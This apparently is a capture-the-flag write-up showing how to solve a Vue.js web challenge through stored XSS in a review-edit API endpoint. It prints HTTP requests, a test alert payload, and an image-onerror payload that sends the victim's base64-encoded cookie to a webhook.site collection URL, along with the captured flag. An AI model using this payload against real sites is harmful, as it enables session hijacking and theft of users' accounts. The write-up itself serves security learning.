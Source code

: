 # A Good Vue
> Check out my cool artworks over there: goodvue.rumble.host If you want an Admin to check out your cool stuff: goodvue-bot.rumble.host

## About the Challenge
We have been given a website to test and this website using VueJS. Here is the preview of the website

![preview](images/preview.png)

If we press the `EXPLOIT` button in the corner of the website, it will return an alert

![alert](images/alert.png)

But there is an API endpoint that you can access [here](http://goodvue-api.rumble.host). If you access the homepage, the website will request to the API endpoint. Here is the HTTP request when the website send a request to `http://goodvue-api.rumble.host/get`

```
POST /get HTTP/1.1
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
...

{"id":"1","token":"OUR_COOKIE_VALUE"}
```

And it will return the review information such as likes, dislikes, and also the comments.

## How to Solve?
Because in the description there is an admin bot, so we know this is a XSS chall, and then because this website using VueJS i tried to check every request and I found this [url](http://goodvue.rumble.host/src/components/ImageComponent.vue)

![endpoint](images/endpoint.png)

As you can see there are 2 endpoints:
* http://goodvue-api.rumble.host/get
* http://goodvue-api.rumble.host/edit

When i tried to edit one of the review by sending this request

```
POST /edit HTTP/1.1
Host: goodvue-api.rumble.host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
...

{"id":"1","token":"OUR_COOKIE_VALUE","text":"test"}
```

Luckily our input was reflected in the website

![input](images/input.png)

And then i tried to use normal XSS payload

```html
<img src=x onerror=alert(document.cookie)>
```

![testing](images/testing.png)

And we got an alert, so I tried to create another payload to steal the admin cookie. Here is the payload that I used to steal the cookie

```
<img src=x onerror=\"var i=new Image(); i.src='https://webhook.site/47c2cdc9-1233-4ac8-8e8b-55efe06aeb2c/?cookie='+btoa(document.cookie)\">"
```

After that, send the cookie to the admin and then wait until we got the admin's cookie

![webhook](images/webhook.png)

Decode the cookie using base64 and voila

![flag](images/flag.png)

```
CSR{3v3n_vu3_c4n_h4v3_XSS}
```